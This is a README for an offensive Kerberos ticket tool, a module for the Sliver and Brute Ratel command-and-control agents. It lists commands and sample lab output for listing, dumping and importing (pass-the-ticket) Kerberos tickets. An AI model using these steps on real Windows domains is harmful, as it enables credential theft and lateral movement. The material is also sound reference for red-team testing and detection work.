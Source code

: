 # Nanorobeus
COFF file (BOF) for managing Kerberos tickets.

## Supported agents
* [Sliver](https://github.com/BishopFox/sliver)
* [Brute Ratel](https://bruteratel.com)

## Commands

**luid** - get current logon ID

**sessions** *[/luid <0x0>| /all]* - get logon sessions

**klist** *[/luid <0x0> | /all]* - list Kerberos tickets

**dump** *[/luid <0x0> | /all]* - dump Kerberos tickets

**ptt** *\<base64\> [/luid <0x0>]* - import Kerberos ticket into a logon session

**purge** [/luid <0x0>] - purge Kerberos tickets

## Examples
Get current logon ID.
```
=> nanorobeus64 luid

[+] Current LogonId: 0:0x19ea88e
```
Get detailed information about the current logon session.
```
=> nanorobeus64 sessions

UserName                : User
Domain                  : FORTRESS
LogonId                 : 0:0x19ea88e
Session                 : 2
UserSID                 : S-1-5-21-1768674056-2740991423-664180583-1105
Authentication package  : Kerberos
LogonType               : Interactive
LogonTime (UTC)         : 2/7/2022 19:22:43
LogonServer             : SERVER
LogonServerDNSDomain    : FORTRESS.LOCAL
UserPrincipalName       : user@fortress.local
```
List Kerberos tickets for the current logon session. When elevated, use `/all` to list tickets from all of the sessions or `/luid 0x0` to list tickets in a specified logon session.
```
=> nanorobeus64 klist

UserName                : User
Domain                  : FORTRESS
LogonId                 : 0:0x19ea88e
Session                 : 2
UserSID                 : S-1-5-21-1768674056-2740991423-664180583-1105
Authentication package  : Kerberos
LogonType               : Interactive
LogonTime (UTC)         : 2/7/2022 19:22:43
LogonServer             : SERVER
LogonServerDNSDomain    : FORTRESS.LOCAL
UserPrincipalName       : user@fortress.local

[*] Cached tickets: (6)

	[0]
	Client name     : User @ FORTRESS.LOCAL
	Server name     : krbtgt/FORTRESS.LOCAL @ FORTRESS.LOCAL
	Start time      : 2/7/2022 19:22:44 (UTC)
	End time        : 3/7/2022 5:22:43 (UTC)
	Renew time      : 9/7/2022 19:22:43 (UTC)
	Flags           : forwardable, forwarded, renewable, pre_authent, name_canonicalize (0x60a10000)
	Encryption type : AES256_CTS_HMAC_SHA1
    ...(snip)...
```
Dump tickets from the current logon session. When elevated, use `/all` to dump tickets from all of the sessions or `/luid 0x0` to dump tickets from a specified logon session.
```
=> nanorobeus64 dump

UserName                : User
Domain                  : FORTRESS
LogonId                 : 0:0x19ea88e
Session                 : 2
UserSID                 : S-1-5-21-1768674056-2740991423-664180583-1105
Authentication package  : Kerberos
LogonType               : Interactive
LogonTime (UTC)         : 2/7/2022 19:22:43
LogonServer             : SERVER
LogonServerDNSDomain    : FORTRESS.LOCAL
UserPrincipalName       : user@fortress.local

[*] Cached tickets: (6)

	[0]
	Client name     : User @ FORTRESS.LOCAL
	Server name     : krbtgt/FORTRESS.LOCAL @ FORTRESS.LOCAL
	Start time      : 2/7/2022 19:22:44 (UTC)
	End time        : 3/7/2022 5:22:43 (UTC)
	Renew time      : 9/7/2022 19:22:43 (UTC)
	Flags           : forwardable, forwarded, renewable, pre_authent, name_canonicalize (0x60a10000)
	Encryption type : AES256_CTS_HMAC_SHA1
	Ticket          : doIFFjCCBRKgAwIBBaEDAgEWooIEGTCCBBVhggQRMIIEDaADAg...(snip)...
```
Import a ticket into the current logon session. When elevated, use `/luid 0x0` to import the ticket into a specified logon session.
```
=> make_token network fortress.local test pass
=> nanorobeus64 ptt doIFqjCCBaagAwIB...snip...

[+] Ticket successfully imported.
```
Purge all Kerberos tickets from the current logon session. When elevated, use `/luid 0x0` to purge the tickets from a specified logon session.
```
=> nanorobeus64 purge

[+] Successfully purged tickets.
```

## Credits
* Rubeus - https://github.com/GhostPack/Rubeus
* mimikatz - https://github.com/gentilkiwi/mimikatz